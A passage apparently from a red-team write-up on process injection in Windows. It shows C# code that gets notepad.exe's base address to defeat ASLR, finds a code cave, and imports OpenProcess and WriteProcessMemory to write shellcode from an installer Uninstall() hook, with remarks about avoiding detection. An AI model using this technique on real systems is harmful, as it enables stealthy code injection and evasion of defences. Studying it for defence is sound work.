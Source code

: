 <br/>
<hr/>

# Dealing with ASLR
From Wikipedia: "Address space layout randomization (ASLR) is a computer security technique involved in preventing exploitation of memory corruption vulnerabilities. In order to prevent an attacker from reliably redirecting code execution to, for example, a particular exploited function in memory, ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap and libraries."

Basically, every time Windows boots, ASLR randomizes the base addresses of stuff, so we need to deal with bases and offsets instead of absolute addresses. Knowing the offset of `0x800` from the end of the region is a good start; we just need to know the base address of the process.

Conveniently, C# allows us to retrieve the base address of the notepad.exe process:

```csharp
    // Spawn notepad.exe
    Process p = new Process();
    p.StartInfo.FileName = "c:\\windows\\system32\\notepad.exe";
    p.StartInfo.CreateNoWindow = false;
    p.Start();

    // Get the base address of notepad.exe
    IntPtr NotepadBase = p.MainModule.BaseAddress;
```

We just need to calculate the offset from the base address of notepad.exe to `0x800` bytes before the end of the RX region, so:

```
0:006> ? 7ff7`e7f46000 - 0x800 - notepad
Evaluate expression: 153600 = 00000000`00025800
```

Now with the base and the offset, we can calculate the absolute address of the code cave with:
```csharp
    IntPtr NotepadBase = p.MainModule.BaseAddress;
    IntPtr WriteAddress = NotepadBase + 0x25800;
```

<br/>
<hr/>

# PoC #2
Now that we can dynamically calculate the absolute address to write our shellcode to, we'll update the `Uninstall()` function to import the required functions and then call them. We won't get greedy yet by trying to call `CreateRemoteThread()` - it's better to make small incremental changes to more easily figure out what went wrong or what got detected/blocked.

```csharp
[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, uint bInheritHandle, uint dwProcessId);
[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out Int32 lpNumberOfBytesWritten);

public override void Uninstall(IDictionary savedState)
{
    // Read in msgbox shellcode from disk
    byte[] Shellcode = File.ReadAllBytes("c:\\temp\\msgbox.bin");

    // Spawn notepad.exe
    Process p = new Process();
    p.StartInfo.FileName = "c:\\windows\\system32\\notepad.exe";
```
